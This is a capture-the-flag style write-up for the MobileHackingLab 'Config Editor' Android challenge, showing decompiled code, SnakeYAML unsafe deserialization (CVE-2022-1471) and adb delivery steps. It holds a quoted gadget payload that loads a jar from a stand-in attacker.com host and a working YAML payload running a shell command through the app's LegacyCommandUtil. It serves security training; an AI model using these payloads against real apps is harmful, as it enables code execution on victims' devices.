# Config Editor
> 

# Dist
`[your-uname.ovpn]` `[com.mobilehackinglab.configeditor.apk]`

## About the Challenge
Given 2 files namely `[your-uname.ovpn]` `[com.mobilehackinglab.configeditor.apk]`

## How to solve?
First I decompile `com.mobilehackinglab.configeditor.apk` with `jadx-gui`.

AndroidManifest.yml



mainActivity


```
..snippet...
protected void onCreate(Bundle savedInstanceState) {
      super.onCreate(savedInstanceState);
      ActivityMainBinding inflate = ActivityMainBinding.inflate(getLayoutInflater());
      Intrinsics.checkNotNullExpressionValue(inflate, "inflate(...)");
      this.binding = inflate;
      ActivityMainBinding activityMainBinding = null;
      if (inflate == null) {
         Intrinsics.throwUninitializedPropertyAccessException("binding");
         inflate = null;
      }
      setContentView(inflate.getRoot());
      BuildersKt__Builders_commonKt.launch$default(GlobalScope.INSTANCE, null, null, new MainActivity$onCreate$1(this, null), 3, null);
      ActivityMainBinding activityMainBinding2 = this.binding;
      if (activityMainBinding2 == null) {
         Intrinsics.throwUninitializedPropertyAccessException("binding");
      } else {
         activityMainBinding = activityMainBinding2;
      }
      EditText $this$onCreate_u24lambda_u240 = activityMainBinding.contentArea;
      $this$onCreate_u24lambda_u240.setHorizontallyScrolling(true);
      $this$onCreate_u24lambda_u240.setMaxLines(Integer.MAX_VALUE);
      $this$onCreate_u24lambda_u240.setHorizontalScrollBarEnabled(true);
      $this$onCreate_u24lambda_u240.setScrollBarStyle(16777216);
      setButtonListeners();
      handleIntent();
   }


private final void handleIntent() {
   Intent intent = getIntent();
   String action = intent.getAction();
   Uri data = intent.getData();
   if (Intrinsics.areEqual("android.intent.action.VIEW", action) && data != null) {
      CopyUtil.INSTANCE.copyFileFromUri(data).observe(this, new MainActivity$sam$androidx_lifecycle_Observer$0(new Function1<Uri, Unit>() { // from class: com.mobilehackinglab.configeditor.MainActivity$handleIntent$1
            {
               super(1);
            }

            @Override // kotlin.jvm.functions.Function1
            public /* bridge */ /* synthetic */ Unit invoke(Uri uri) {
               invoke2(uri);
               return Unit.INSTANCE;
            }

            /* renamed from: invoke, reason: avoid collision after fix types in other method */
            public final void invoke2(Uri uri) {
               MainActivity mainActivity = MainActivity.this;
               Intrinsics.checkNotNull(uri);
               mainActivity.loadYaml(uri);
            }
      }));
   }
}

public final void loadYaml(Uri uri) {
   try {
      ParcelFileDescriptor openFileDescriptor = getContentResolver().openFileDescriptor(uri, "r");
      try {
            ParcelFileDescriptor parcelFileDescriptor = openFileDescriptor;
            FileInputStream inputStream = new FileInputStream(parcelFileDescriptor != null ? parcelFileDescriptor.getFileDescriptor() : null);
            DumperOptions $this$loadYaml_u24lambda_u249_u24lambda_u248 = new DumperOptions();
            $this$loadYaml_u24lambda_u249_u24lambda_u248.setDefaultFlowStyle(DumperOptions.FlowStyle.BLOCK);
            $this$loadYaml_u24lambda_u249_u24lambda_u248.setIndent(2);
            $this$loadYaml_u24lambda_u249_u24lambda_u248.setPrettyFlow(true);
            Yaml yaml = new Yaml($this$loadYaml_u24lambda_u249_u24lambda_u248);
            Object deserializedData = yaml.load(inputStream);
            String serializedData = yaml.dump(deserializedData);
            ActivityMainBinding activityMainBinding = this.binding;
            if (activityMainBinding == null) {
               Intrinsics.throwUninitializedPropertyAccessException("binding");
               activityMainBinding = null;
            }
            activityMainBinding.contentArea.setText(serializedData);
            Unit unit = Unit.INSTANCE;
            CloseableKt.closeFinally(openFileDescriptor, null);
      } finally {
      }
   } catch (Exception e) {
      Log.e(TAG, "Error loading YAML: " + uri, e);
   }
}

..snippet...
```


vuln:
```
...snippet...
import org.yaml.snakeyaml.DumperOptions;
import org.yaml.snakeyaml.Yaml;
...snippet...
```


[cve-2022-1471](https://www.mscharhag.com/security/snakeyaml-vulnerability-cve-2022-1471)

Here it is said that to create a malicious yaml file you can use the following method:
```
person: !!javax.script.ScriptEngineManager [
    !!java.net.URLClassLoader [[
        !!java.net.URL [http://attacker.com/malicious-code.jar]
    ]]
]
```

But it didn't work, and here I found a useful class:


Here's my payload after adjusting it from that useful class:
```
exploit: !!com.mobilehackinglab.configeditor.LegacyCommandUtil ["touch /data/data/com.mobilehackinglab.configeditor/nutm3.txt"]
```

[server](solver/server.py)

## exploitation:
> connect vpn to connect to the emulator server from mobilehackinglab.
```
└─$ sudo openvpn nameFile.ovpn
```
> connect to server
```
└─$ adb connect 10.11.1.1:5001
```


> Here, I don't need to install the APK because it's already installed on the Mobilehackinglab emulator!



> Here, I can enter the Android victim's interactive shell with the following command:
```
└─$ adb shell
```

> At this stage i create a yml file on my local machine, and push it to the victim server via adb.
exp.yml:
```
exploit: !!com.mobilehackinglab.configeditor.LegacyCommandUtil ["touch /data/data/com.mobilehackinglab.configeditor/nutm3.txt"]
```

push exp.yml to victim machine:
```
adb push exp.yml /sdcard/Download
```
/sdcard/Download  : This path is the path to load the default path for configEditor.apk, so I put it here.





After that, I clicked the load button and selected exp.yml.


And yap, the command injection was successfully executed.



